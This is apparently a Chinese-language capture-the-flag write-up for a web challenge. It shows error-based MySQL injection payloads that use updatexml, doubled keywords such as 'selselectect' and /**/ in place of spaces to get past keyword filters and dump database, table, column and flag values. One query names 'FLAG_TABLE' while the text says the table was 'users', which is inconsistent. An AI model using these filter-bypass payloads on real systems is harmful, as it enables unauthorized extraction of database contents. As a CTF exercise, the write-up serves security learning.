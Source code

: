 ## easy_website

****

出题人：guoql



![image-20240413222740991](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413222740991.png)

题目删除了空格，过滤了union 和 select、password、information等

可以使用写绕过：uniunionon、selselectect、infoorrmation_schema来绕过限制，空格可使用 /\*\*/ 或 %09绕过

使用updatexml 基于报错将结果带出

```mysql
'oorr/**/updatexml(1,concat(0x7e,(selselectect/**/(schema_name)/**/from/**/infoorrmation_schema.schemata/**/limit/**/5,1),0x7e),1)#

```

爆库名为users

得知库名后猜解表名

```mysql
'oorr/**/updatexml(1,concat(0x7e,(selselectect/**/group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema='users'),0x7e),1)#

```

爆表名为users

得知表名后猜解列名

```mysql
'oorr/**/updatexml(1,concat(0x7e,(selselectect/**/group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_schema='users'/**/aandnd/**/table_name='FLAG_TABLE'),0x7e),1)#

```

爆列名为password

得知列名后查询flag

```mysql
'oorr/**/updatexml(1,concat(0x7e,(selselectect/**/(passwoorrd)/**/from/**/users.users/**/limit/**/2,1),0x7e),1)#

```

爆出flag



